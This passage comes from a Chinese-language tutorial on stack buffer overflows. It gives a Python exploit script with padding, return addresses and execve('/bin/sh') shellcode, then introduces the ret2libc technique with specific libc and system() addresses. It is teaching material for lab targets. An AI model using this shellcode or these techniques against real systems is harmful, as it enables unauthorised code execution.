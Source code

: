 那么得到的exp脚本如下：

```python
payload = "A"*80
address = "\xf9\x84\x04\x08"
address += "\x94\xfc\xff\xbf"
shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print payload + address + shellcode
```

运行的结果：

<div>
    <center><!--将图片和文字居中-->
    <img src="1-23.png"
         alt="1-23.png"
         style="100%"/>
    <br>  <!--换行-->
    Picture 1-23 <!--标题-->
    </center>
</div>

虽然在栈上插入可执行代码很方便，但也正因为很容易利用，在现代的操作系统上已经禁止了在栈上执行代码。因此绝大部分情况下，我们是无法在栈中插入我们的shellcode的。

那这也引出了另一种办法，这种办法被称为ret2libc.

正如execve函数可以执行命令一样，在libc中还有system函数可以用于执行shell命令，因此思路也很简单，直接跳转到system函数地址开始执行不就行了？确实是这样，但我们还需要为system函数准备参数，也即/bin/sh字符串。

因此我们需要获取system函数地址，以及从libc库中获取"/bin/sh"字符串的地址。

由图1-24可以获得，libc被载入的基地址为0xb7e97000，system函数地址为0xb7ecffb0，而"/bin/sh"字符串在libc-2.11.2.so中的偏移为0x11f3bf。

<div>
    <center><!--将图片和文字居中-->